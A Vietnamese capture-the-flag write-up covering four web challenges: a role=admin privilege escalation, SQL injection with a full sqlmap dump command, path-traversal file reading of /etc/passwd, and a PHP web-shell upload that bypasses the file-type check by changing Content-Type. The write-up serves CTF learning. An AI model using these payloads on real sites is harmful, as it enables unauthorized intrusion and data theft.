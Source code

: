 # Checkpoint

# Challenge 1

Đăng kí tài khoản và login vào website. Ở trang profile có chức năng đổi tên. 

![Untitled](wu_media/Untitled.png)

Để ý dưới avatar có `role: user` → ta có thể thử thêm `role=admin` vào request đổi tên

![Untitled](wu_media/Untitled%201.png)

Reload profile → lấy được flag

![Untitled](wu_media/Untitled%202.png)

---

# Challenge 2

Xác định được server sử dụng MySQL do comment bằng dấu `#` thì không bị `Internal Server Error`

![Untitled](wu_media/Untitled%203.png)

Sử dụng `SQLmap` để quét SQLi ở param `username`. Copy paste request ra file `~/SQLi.txt`

![Untitled](wu_media/Untitled%204.png)

Chạy `SQLmap`. Do ta đã biết server sử dụng MySQL nên sẽ thêm option `--dbms=MySQL`

```bash
python3 sqlmap.py -r ~/SQLi.txt -p username --level=5 --risk=3 --dbms=MySQL --dump --batch
```

![Untitled](wu_media/Untitled%205.png)

---

# Challenge 3

Sau một hồi bruteforce, ta có được username và password `test:test`

Login vào, xem source code phần avatar có đoạn khả nghi 

![Untitled](wu_media/Untitled%206.png)

Thử `/image.php?f=../../../../etc/passwd`

![Untitled](wu_media/Untitled%207.png)

Như vậy ta có thể khai thác LFI để tìm flag.

Đọc file `../index.php` ta có flag

![Untitled](wu_media/Untitled%208.png)

---

# Challenge 4

Đăng kí tài khoản và login vào website. Ở trang profile có chức năng thay avatar.

Ta tạo file `ava.php` với nội dung và upload thử

```php
<?php system("ls"); ?>
```

Tuy nhiên website chỉ cho phép ta upload một vài dạng file ảnh.

![Untitled](wu_media/Untitled%209.png)

![Untitled](wu_media/Untitled%2010.png)

Tìm lại request POST đó và gửi vào `Repeater`. Thay `Content-Type: image/png`

![Untitled](wu_media/Untitled%2011.png)

Ta đã bypass được check file type và có vị trí của file vừa upload. Gửi request GET đến vị trí đó.

![Untitled](wu_media/Untitled%2012.png)

Lệnh `ls` đã được thực thi. Từ đây ta dễ dàng tìm và đọc file flag. Liệt kê file ở thư mục mẹ, ta thấy có file `flag.txt`

```php
<?php system("ls -a .."); ?>
```

![Untitled](wu_media/Untitled%2013.png)

![Untitled](wu_media/Untitled%2014.png)

Đọc file `flag.txt`

```php
<?php system("cat ../flag.txt"); ?>
```

![Untitled](wu_media/Untitled%2015.png)

![Untitled](wu_media/Untitled%2016.png)